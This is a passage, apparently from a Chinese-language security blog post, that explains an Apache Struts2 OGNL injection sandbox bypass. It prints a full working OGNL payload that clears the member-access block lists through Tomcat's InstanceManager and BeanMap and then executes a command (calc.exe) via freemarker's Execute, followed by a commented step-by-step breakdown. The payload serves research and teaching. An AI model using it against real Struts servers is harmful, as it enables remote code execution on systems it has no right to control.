     
    %{(#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#application.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + (#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +(#application.map2.setBean(#application.get('map').get('context')) == true).toString().substring(0,0) + (#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#application.map3.setBean(#application.get('map2').get('memberAccess')) == true).toString().substring(0,0) + (#application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + (#application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))}

  

这有效地评估为：

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //Place valuestack in a beanmap mapapplication.map = org.apache.tomcat.InstanceManager().newInstance('org.apache.commons.collecitons.BeanMap');application.map.setBean(#request.get('struts.valueStack'));  
    //grab the context variable from valuestack and place in beanmap map2application.map2 = org.apache.tomcat.InstanceManager().newInstance('org.apache.commons.collecitons.BeanMap');application.map2.setBean(#application.get('map').get('context'));  
    //grab the memberaccess variable from context variable and place in beanmap map3application.map3 = org.apache.tomcat.InstanceManager().newInstance('org.apache.commons.collecitons.BeanMap');application.map3.setBean(#application.get('map2').get('memberAccess'));  
    //clear block lists found in memberaccess, by creating empty lists in their place. application.get('map3').put(excludedPackageNames', new HashSet());application.get('map3').put(excludedClasses', new HashSet());  
    //break out of sandbox restrictions and now execute calc.exeapplication.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}));

  

        在 Struts2 中评估 OGNL 时，它在其上下文映射中具有一些映射到对象的预定义值。例如，其中一些包括“#application”、“#request”、“#attr”。因此，当您调用 %{#application.toString()} 时，您正在调用该对象及其 toString 函数。有一些非常有才华的研究人员发现，您可以使用以下方法绕过 OGNL/Struts 沙箱限制。

  

#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')

  

创建一个

BeanMap 并使用它的setBean和put函数来清除excludedPackageNames 和excludedClasses 从而取消沙箱限制。

  

但是新的沙盒限制阻止了 org.apache.tomcat.* 的使用。

  

![](https://gitee.com/fuli009/images/raw/master/public/20220415095205.png)
